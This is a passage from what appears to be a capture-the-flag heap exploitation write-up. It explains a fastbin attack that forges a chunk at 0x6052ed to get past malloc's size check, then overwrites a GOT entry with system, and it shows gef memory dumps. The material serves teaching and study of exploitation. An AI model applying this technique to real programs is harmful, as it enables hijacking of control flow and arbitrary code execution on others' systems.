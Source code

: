 ```makefile
                             |        |
                             |    3   |
                             +--------+
                                  |
                                  |
                                  |
                             +--------+
                             |        |
                             |0x6052ed|
                             +--------+
```


The question now is why did we overwrite the `FD` field with `0x6052ed`? We somehow need to get our arbitrary (almost) primitive, don't we?

`malloc` does the following check before it deletes a free fastbin chunk in order to serve it back to the user:

```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```
`malloc` makes sure there hasn't been any sort of fastbin corruption by checking if the size of the chunk which is about to be deleted corresponds to the size of this fastbin request (max `0x80`) . How do we bypass that? There are a few ways to get around it but here's my thought process:

* The binary has partial RELRO, which means the Global Offset Table is still writable.

* If the binary had full RELRO, we can still get around it by overwriting the `__malloc_hook` function pointer in libc (which is the subject of a future post).

* So how we overwrite an entry in GOT? The binary keeps track of the allocated objects in a global array of pointers. If we could somehow overwrite one of those pointers with a GOT address and then call the `edit` function, we can overwrite its content with a function of our taste, such as `system`!

Let's inspect the memory around that global array which is at address `0x605310`.

```makefile
gef➤  x/6gx 0x605310
0x605310:   0x0000000000617c20  0x0000000000617cb0
0x605320:   0x0000000000617c20  0x0000000000617c90
0x605330:   0x0000000000617d00  0x0000000000617c90
```

The entries are looking good. Now what if there's an address **before** the global array's address where at offset `+0x8` there is a value of a legitimate fastbin size. After a bit of trial and error, here's our savior!

```makefile
gef➤  x/40gx 0x6052ed
0x6052ed:   0xfff753162000007f  0x000000000000007f
0x6052fd:   0x0000000000000000  0x0000000000000000
0x60530d:   0x0000617c20000000  0x0000617cb0000000
0x60531d:   0x0000617c20000000  0x0000617c90000000
0x60532d:   0x0000617d00000000  0x0000617c90000000
```
